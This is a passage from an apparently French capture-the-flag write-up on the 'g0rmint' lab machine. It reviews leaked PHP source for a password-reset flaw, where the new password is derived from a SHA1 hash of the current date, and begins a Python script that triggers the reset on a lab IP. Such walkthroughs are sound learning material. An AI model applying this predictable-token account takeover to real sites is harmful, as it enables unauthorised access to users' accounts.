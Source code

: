 White box
---------

Via un peu de brute-force on trouve dans ce fameux dossier un fichier *info.php* faisant référence à *backup.zip*.  

L'archive contient une copie de l'arborescence web mais on devine assez vite qu'il n' s'agit pas exactement de la même version, à commencer par un dump de la base MySQL qui n'indique qu'un compte *demo* qui ne fonctionne pas sur le site et sans le nom *noman* que l'on a trouvé précédemment.  

Ce qui nous intéresse c'est bien évidemment le mécanisme d'authentification et de réinitialisation du mot de passe.  

```php
<?php
include_once('config.php');
$message = "";
if (isset($_POST['submit'])) { // If form is submitted
    $email = $_POST['email'];
    $user = $_POST['user'];
    $sql = $pdo->prepare("SELECT * FROM g0rmint WHERE email = :email AND username = :user");
    $sql->bindParam(":email", $email);
    $sql->bindParam(":user", $user);
    $row = $sql->execute();
    $result = $sql->fetch(PDO::FETCH_ASSOC);
    if (count($result) > 1) {
        $password = substr(hash('sha1', gmdate("l jS \of F Y h:i:s A")), 0, 20);
        $password = md5($password);
        $sql = $pdo->prepare("UPDATE g0rmint SET pass = :pass where id = 1");
        $sql->bindParam(":pass", $password);
        $row = $sql->execute();
        $message = "A new password has been sent to your email";
    } else {
        $message = "User not found in our database";
    }
}
?>
```

Comme on s'y attendait l'utilisation de PDO protège efficacement des attaques SQL.  

On voit qu'un double hashage est généré à partir de la date telle qu'affichée sur le site.  

```php
$email = $_POST['email'];
$pass = md5($_POST['pass']);

$sql = $pdo->prepare("SELECT * FROM g0rmint WHERE email = :email AND pass = :pass");
```

Et lors du login, seul le hash md5() est réalisé. Le mot de passe à saisir correspond donc aux 20 premiers caractères du hash sha1 de la date.  

On peut écrire un script de réinitialisation en Python :  

```python
from hashlib import sha1, md5

import requests
from bs4 import BeautifulSoup

data = {
    "email": "w3bdrill3r@gmail.com",
    "user": "noman",
    "submit": "reset"
}

response = requests.post("http://192.168.1.42/g0rmint/reset.php", data=data)

```